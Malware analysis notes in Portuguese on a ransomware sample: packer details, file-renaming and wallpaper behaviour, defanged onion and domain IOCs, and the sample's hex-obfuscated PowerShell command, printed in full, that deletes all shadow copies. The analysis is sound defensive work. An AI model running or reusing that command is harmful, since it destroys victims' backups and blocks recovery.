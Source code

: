 SHA256: 4098b54c9d27b00ce34d04ffac24213ed28993a2854827851b157d63407c2e4e

 - Objetivo 1: Exemplos de informações relevantes: arquivos procurados, alterações no sistema, compilador, c2,  diretórios ignorados, e tudo mais que achar relevante.
    Encontrado Protector/Packer: VMProtect(1.60-2.05)
    Encontrado Linker: Microsoft Linker(14.12)

IOC BEHAVIOR
    Inclui 8 caracteres aleatorios na extensão dos arquivos
    Altera o WallPaper da area de trabalho via "Windows Registry" -> \REGISTRY\USER\S-1-5-21-2455352368-1077083310-2879168483-1000\Control Panel\Desktop\WallPaper
    Spawn PowerShell com CommanLine malicioso -> powershell -ep bypass -c "(0..61)|%{$s+=[char][byte]('0x'+'4765742D576D694F626A6563742057696E33325F536861646F77636F7079207C20466F72456163682D4F626A656374207B245F2E44656C65746528293B7D20'.Substring(2*$_,2))};iex $s"
    Spawn VSSVC
    
IOC URL
    hxxp://darksidfqzcuhtk2[.]onion

IOC DOMAIN
    securebestapp20[.]com

 - Objetivo 2: Regra Yara para detectar o sample

 - Objetivo 3: Assinatura hipotética baseada em uma sequência de comportamentos, 


Ferramentas utilizadas:
    Detect It Easy
